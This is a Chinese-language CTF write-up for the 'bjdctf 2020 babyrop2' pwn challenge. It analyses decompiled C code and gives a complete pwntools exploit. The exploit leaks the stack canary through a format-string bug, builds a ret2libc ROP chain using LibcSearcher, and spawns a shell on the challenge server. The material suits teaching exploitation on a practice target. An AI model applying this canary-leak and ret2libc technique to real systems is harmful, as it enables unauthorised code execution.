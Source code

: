 ```yaml
---
author: 
  name: Zephyr
title: bjdctf 2020 babyrop2
date: 2022-3-28 15:50:25
permalink: /pages/2e1547494524d19f
tags: 
  - buuctf
  - pwn
  - FormatString
  - StackOverflow
---
```


# bjdctf 2020 babyrop2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bjdctf_2020_babyrop2/bjdctf_2020_babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  gift();
  vuln();
  return 0;
}
```

init函数如下

```c
unsigned __int64 init()
{
  unsigned __int64 v0; // ST08_8

  v0 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("Can u return to libc ?");
  puts("Try u best!");
  return __readfsqword(0x28u) ^ v0;
}
```

gift函数如下

```c
unsigned __int64 gift()
{
  char format; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("I'll give u some gift to help u!");
  __isoc99_scanf("%6s", &format);
  printf(&format);
  puts(byte_400A05);
  fflush(0LL);
  return __readfsqword(0x28u) ^ v2;
}
```

vuln函数如下

```c
unsigned __int64 vuln()
{
  char buf; // [rsp+0h] [rbp-20h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Pull up your sword and tell me u story!");
  read(0, &buf, 0x64uLL);
  return __readfsqword(0x28u) ^ v2;
}
```

部分函数表如下

![bjdctf_2020_babyrop2_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/bjdctf_2020_babyrop2_1.png)

## 思路分析

1. 目前信息：
   - vuln函数可溢出
   - gift函数有格式化字符串漏洞
   - 无system、/bin/sh与后门函数
   - Canary found
   - NX enabled
   - No PIE
2. 思路：
   - 典型的64位ret2libc，但需要绕过Canary防护，这里gift函数中的格式化字符串漏洞可以帮助我们泄漏Canary

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/bjdctf_2020_babyrop2/bjdctf_2020_babyrop2'
io = remote('node4.buuoj.cn', 26351)
# io = process(pwnfile)
elf = ELF(pwnfile)
format = b'%7$p\x00'
io.sendlineafter('give u some gift to help u!\n', format)
Canary = int(io.recvuntil('\n', drop=True), 16) # 泄漏Canary
success('Canary:'+hex(Canary))
padding = 0x20+8
libc_start_main_addr = elf.got['__libc_start_main']
puts_addr = elf.plt['puts']
vuln_addr = elf.symbols['vuln']
pop_rdi_ret = 0x400993
payload = flat(['a'*(padding-0x10), Canary, 'a'*8, pop_rdi_ret,libc_start_main_addr, puts_addr, vuln_addr])
io.sendlineafter('me u story!\n', payload)
leak_libc_start_main_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
success('leak_libc_start_main_addr:'+hex(leak_libc_start_main_addr))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main_addr)
libcbase = leak_libc_start_main_addr-libc.dump('__libc_start_main')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*(padding-0x10), Canary, 'a'*8,pop_rdi_ret, bin_sh_addr, system_addr])
io.sendlineafter('u story!\n', payload)
io.interactive()
```